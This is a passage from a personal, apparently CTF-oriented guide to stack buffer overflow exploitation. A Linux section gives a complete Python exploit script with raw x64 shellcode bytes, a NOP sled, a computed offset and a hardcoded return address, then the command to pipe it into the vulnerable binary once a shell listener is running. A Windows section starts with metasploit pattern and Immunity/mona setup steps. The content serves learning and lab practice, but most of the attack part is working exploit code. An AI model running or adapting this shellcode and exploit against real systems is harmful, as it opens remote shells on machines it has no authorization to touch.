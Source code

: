     buf += b"\x2c\xdd\x8f\x6e\xb8\x74\x59\xe8\xc6\xfd\x34\x12\x92"
    buf += b"\x94\xd0\x95\xe2\xdd\xbd\xa7\xd5\x18\x37\xc7\xb5\x95"
    buf += b"\x34\x41"
    ```

7. Compile an exploit string. I created a python file I could invoke against the binary to exploit:

    ```python
    from struct import pack

    nop = '\x90'

    buf =  b""
    buf += b"\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48\x8d\x05"
    buf += b"\xef\xff\xff\xff\x48\xbb\xda\x1d\x37\xc7\xb5\x95\x34"
    buf += b"\x41\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4"
    buf += b"\xb0\x34\x6f\x5e\xdf\x97\x6b\x2b\xdb\x43\x38\xc2\xfd"
    buf += b"\x02\x7c\xf8\xd8\x1d\x26\x9b\xbf\x9f\x93\x4f\x8b\x55"
    buf += b"\xbe\x21\xdf\x85\x6e\x2b\xf0\x45\x38\xc2\xdf\x96\x6a"
    buf += b"\x09\x25\xd3\x5d\xe6\xed\x9a\x31\x34\x2c\x77\x0c\x9f"
    buf += b"\x2c\xdd\x8f\x6e\xb8\x74\x59\xe8\xc6\xfd\x34\x12\x92"
    buf += b"\x94\xd0\x95\xe2\xdd\xbd\xa7\xd5\x18\x37\xc7\xb5\x95"
    buf += b"\x34\x41"

    calculated_offset = 608
    rip = 0x7fffffffe07c
    payload_len = calculated_offset + 8
    nop_payload = 300*nop
    shell_len = len(buf)
    nop_len = len(nop_payload)
    padding = 'A'*(payload_len - shell_len - nop_len)
    payload = nop_payload + buf + padding + pack("<Q", rip)

    print(payload)
    ```

8. Finally, all this in hand (and after setting up the shell listener!), run against the binary to exploit: `./bof < <(python exploit.py)`

## Windows with Immunity Debugger

The process is similar, but with one change that might actually work for linux too. With windows, I need to get a copy on my host machine so I can exploit it locally to test it.

The instructions here are cobbled together from two sources:

- https://johntroony.medium.com/a-practical-overview-of-stack-based-buffer-overflow-7572eaaa4982
- The gatekeeper writeup: https://medium.com/@j.w.helle/official-gatekeeper-writeup-my-first-machine-at-tryhackme-928f320211a

1. First, just as with Linux, you need a pattern. metasploit is available for windows, but I just use WSL/Kali: `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1000`  

2. Install immunity if you dont have it, and mona.py. Mona can be obtained raw here: https://github.com/corelan/mona. Just save the py file under the 'PyCommands' folder in the immunity install directory (which for me was `C:\Program Files (x86)\Immunity Inc\Immunity Debugger`)
